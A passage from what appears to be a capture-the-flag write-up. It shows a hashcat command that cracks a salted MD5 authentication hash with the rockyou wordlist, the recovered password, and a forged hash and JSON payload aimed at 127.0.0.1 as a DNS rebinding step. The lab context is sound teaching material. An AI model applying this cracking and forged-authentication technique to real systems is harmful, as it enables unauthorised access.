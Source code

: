 ```
- [ Hash modes ] -

      # | Name                                             | Category
  ======+==================================================+======================================
    900 | MD4                                              | Raw Hash
      0 | MD5                                              | Raw Hash
  ...
     10 | md5($pass.$salt)                                 | Raw Hash, Salted and/or Iterated
     20 | md5($salt.$pass)                                 | Raw Hash, Salted and/or Iterated
``` 
After some tweaking and testing, we found that attack mode 10 worked! The authenticated hash was being generated with `md5('mrgrinch463'+ip)`

hashcat command
```
hashcat -m 10 -O 5f2940d65ca4140cc18d0878bc398955:203.0.113.33 rockyou.txt --force
```
Output:
```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5f2940d65ca4140cc18d0878bc398955:203.0.113.33:mrgrinch463
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($pass.$salt)
Hash.Target......: 5f2940d65ca4140cc18d0878bc398955:203.0.113.33
Time.Started.....: Mon Dec 28 21:10:03 2020 (2 secs)
Time.Estimated...: Mon Dec 28 21:10:05 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  2218.0 kH/s (0.96ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5352547/14344385 (37.31%)
Rejected.........: 1123/5352547 (0.02%)
Restore.Point....: 5349475/14344385 (37.29%)
Candidates.#1....: mrkitty18 -> mrbrln07
HWMon.Dev.#1.....: N/A
```

###DNS Rebinding
With the password cracked, all we had to do now what make an authentication hash for `127.0.0.1` right?? WRONG!

Here's the hash:
md5('mrgrinch463127.0.0.1') == 3e3f8df1658372edf0214e202acb460b

Here's the payload:
{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}
